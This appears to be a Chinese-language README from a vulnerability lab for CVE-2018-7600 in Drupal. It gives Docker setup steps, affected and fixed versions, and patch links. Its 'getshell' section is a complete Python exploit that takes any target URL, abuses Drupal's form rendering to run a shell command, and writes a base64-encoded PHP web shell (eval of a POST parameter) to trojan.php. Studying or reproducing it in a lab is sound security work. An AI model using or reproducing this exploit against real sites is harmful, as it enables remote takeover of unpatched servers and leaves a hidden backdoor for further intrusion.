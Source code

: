 ## 环境编译
```
docker-compose build
docker-compose up -d
```
##漏洞介绍

2018年3月28日，Drupal Security Team官方发布了一个重要的安全公告，宣称Drupal 6,7,8等多个子版本存在远程代码执行漏洞，攻击者可以利用该漏洞攻击Drupal系统的网站，执行恶意代码，最后完全控制被攻击的网站，该漏洞就是：CVE-2018-7600。
影响版本
Drupal 6.x，7.x，8.x

修复版本
Drupal 7.58，Drupal 8.5.1

修复方案
7.x版本，更新到 7.58 https://www.drupal.org/project/drupal/releases/7.58

8.5.x版本，更新到 8.5.1 https://www.drupal.org/project/drupal/releases/8.5.1

8.4.x 版本，更新到 8.4.6 https://www.drupal.org/project/drupal/releases/8.4.6

8.3.x 版本，更新到 8.3.9 https://www.drupal.org/project/drupal/releases/8.3.9

##getshell

```
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgZXZhbCgkX1BPU1RbJ3NoYWRvdyddKTsgPz4=" |base64 -d |tee trojan.php'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'trojan.php', verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'trojan.php')

```

![](luffy.png)


[链接一](https://paper.seebug.org/567/)
[链接二](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE)

